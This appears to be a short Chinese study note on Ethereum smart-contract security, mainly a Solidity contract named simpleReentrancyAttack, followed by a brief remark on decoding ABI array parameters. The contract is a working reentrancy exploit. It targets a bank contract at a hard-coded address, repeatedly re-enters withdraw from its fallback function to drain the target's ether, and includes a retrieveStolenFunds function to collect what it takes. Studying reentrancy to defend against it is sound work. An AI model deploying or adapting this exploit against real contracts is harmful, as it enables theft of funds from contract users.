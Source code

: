 ```
pragma solidity ^0.6.6;
   interface targetInterface{
     function deposit() external payable; 
     function withdraw(uint withdrawAmount) external; 
   }
  
  contract simpleReentrancyAttack{
     targetInterface bankAddress = targetInterface(0xB9e2A2008d3A58adD8CC1cE9c15BF6D4bB9C6d72); 
     //被攻击合约地址
     uint amount = 1 ether; 
  
	  function deposit() public payable{
		bankAddress.deposit.value(amount)();
	  }
		
	  function attack() public payable{
		bankAddress.withdraw(amount); 
	  }
	  
	  function retrieveStolenFunds() public {
		msg.sender.transfer(address(this).balance);
	  }
	  
	  fallback () external payable{ 
		if (address(bankAddress).balance >= amount){
			 bankAddress.withdraw(amount);
		}   
	  }
}
```



## 合约参数解析:

### 数组参数:

![image-20230406103702355](image-20230406103702355.png)

1.图中[0]=40转hex表示长度64 长度是44/32=2 

2.[2]表示_value = 2